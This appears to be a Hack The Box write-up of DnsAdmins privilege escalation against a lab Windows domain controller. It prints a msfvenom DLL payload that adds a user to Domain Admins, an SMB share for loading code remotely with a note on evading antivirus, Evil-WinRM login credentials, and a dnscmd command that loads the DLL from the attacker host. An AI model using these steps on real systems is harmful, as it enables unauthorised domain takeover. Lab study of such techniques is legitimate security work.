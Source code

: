 ### Privilege escalation - DnsAdmins

Next I did a little research to see if the `DnsAdmins` group had any known privilege escalation routes, and found this interesting article describing how to escalate privileges by doing dll injection: [https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/](https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/). The author lists the steps to accomplish this as:

1. Making a dll payload that sends a reverse shell back to our machine with msfvenom.
2. Serving it using SMB Server to make it available to the Windows machine.
3. Importing that dll in the DNS Server.
4. Restarting the DNS Server so that it loads the dll file.

In my case, I was not able to get the dll injection to provide a reverse shell, so I came up with another route. I did use `msfvenom` to craft my dll to inject, but since the reverse shell payload failed, I decided to simply promote my current user account to `Domain Admin`.

Since we need to run a command to grant our user `Domain Admin` privileges we need to use the `windows/x64/exec` module. _\(Making sure to choose the right architecture. This machine is x64.\)_ The command `net group "domain admins" ryan /add /domain` will add the user `ryan` to the `domain admins` group.

```text
zweilos@kalimaa:~/htb/resolute$ msfvenom -p windows/x64/exec cmd='net group "domain admins" ryan /add /domain' --platform windows -f dll > ~/dns.dll

[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 311 bytes
Final size of dll file: 5120 bytes
```

#### Creating an SMB share from linux

I then hosted my dll on an SMB share so I could access it from the Windows machine without transferring it fand storing it on the remote disk. This is useful for loading executables directly into memory to bypass AV. The Impacket python module library has an example smbserver that is ready-made to this. I created a share named `SHARE` from my local user's home directory with `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -debug SHARE ~/`

After logging back in as `ryan` with `Evil-WinRM`,

```text
zweilos@kalimaa:~/htb/resolute$ evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```

I used the `dnscmd.exe` program to interact with the DNS service and telling it to load my crafted dll from the remote share.

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe RESOLUTE /config /serverlevelplugindll \\10.10.14.253\SHARE\dns.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```
